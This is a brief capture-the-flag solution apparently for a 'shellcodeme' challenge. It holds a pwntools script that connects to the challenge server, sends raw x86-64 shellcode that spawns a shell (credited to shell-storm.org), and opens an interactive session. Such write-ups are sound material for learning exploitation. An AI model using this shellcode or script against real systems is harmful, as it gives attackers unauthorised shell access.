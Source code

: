## Solution
I just ripped some shellcode of [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php)

```py
from pwn import *

r = remote("shellcodeme.heltsikker.no", 9003)

r.recvuntil("!\n")

r.sendline("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

r.interactive()
```